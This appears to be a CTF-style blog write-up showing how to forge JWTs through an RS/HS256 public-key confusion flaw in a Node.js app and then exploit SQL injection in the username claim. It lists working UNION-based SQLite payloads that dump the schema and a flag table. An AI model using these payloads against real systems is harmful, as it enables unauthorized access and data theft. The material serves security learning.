 [back](/)

### SQL injection in Node.js webapp and JSON Web Tokens (JWT)

What JSON Web Token (JWT) is? It is an open standard [RFC 7519](https://tools.ietf.org/html/rfc7519) for creating access tokens, in accordance with which information is transmitted in the form of a JSON object. JSON signature algorithms are used to secure the transmission of such information. For more information about JWT read: [jwt.io](https://jwt.io/introduction/). There are a number of interesting techniques for exploiting vulnerabilities in JWT, but in this example I would like to show the **RS/HS256 public key mismatch vulnerability** and SQL injection exploitation through this vulnerability.

In this example there is a server with a Node.js runtime and a SQLite database, here is the example of authorization and receipt of JWT:

![Image](/img/RS_HS256/auth_jwt.png)

JWT consists of three parts: Header, Payload, Verify Signature, encoded in Base64 format and separated by a dot:

![Image](/img/RS_HS256/jwt_decode.png)

In the process of examining the code of the Node.js web application, a fragment of an SQL query was found with the direct inclusion of the value of the parameter, which is controlled by the user: **${username}:**

![Image](/img/RS_HS256/auth_code.png)

![Image](/img/RS_HS256/vuln_code.png)


To investigate possible SQL injection and JWS token signing via **RS/HS256 public key mismatch** I used [jwt_tool](https://github.com/ticarpi/jwt_tool) tool. To generate payload, it need to change the value of the **${username}** parameter and then sign the JWS using public.key:

![Image](/img/RS_HS256/jwtool_1.png)

![Image](/img/RS_HS256/jwtool_pub_key_sign.png)

The SQL injection research process was accompanied by the use of the following payloads:

The answer 200 means there is an SQL injection:
```
"username" : "jaki' and 1=1 -- -"
```

![Image](/img/RS_HS256/jwtool_true_sqli.png)

![Image](/img/RS_HS256/valid_jwt_200.png)

Number of columns in error for UNION SELECT structure:
```
"username" : "' order by 5; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_2.png)

![Image](/img/RS_HS256/sqli_union_columns.png)

SQLite version:
```
"username" : "' union select 1,sqlite_version(),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_3.png)

![Image](/img/RS_HS256/sqli_ver.png)

List of all database objects and the SQL request used to create each object:
```
"username" : "' union select  1,(SELECT group_concat(sql) FROM sqlite_master),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_4.png)

![Image](/img/RS_HS256/sqli_master.png)


Retrieving sensitive information from the target table:
```
"username" : "' union select  1,(SELECT group_concat(top_secret_flaag) FROM flag_storage),3; -- -"
```

![Image](/img/RS_HS256/jwtool_sqli_5.png)

![Image](/img/RS_HS256/sqli_flag.png)


<div id="disqus_thread"></div>
<script>
(function() { // DON'T EDIT BELOW THIS LINE
var d = document, s = d.createElement('script');
s.src = 'https://hackitfaster-hopto-org.disqus.com/embed.js';
s.setAttribute('data-timestamp', +new Date());
(d.head || d.body).appendChild(s);
})();
</script>
<noscript>Please enable JavaScript to view the <a href="https://disqus.com/?ref_noscript">comments powered by Disqus.</a></noscript>

[back](/)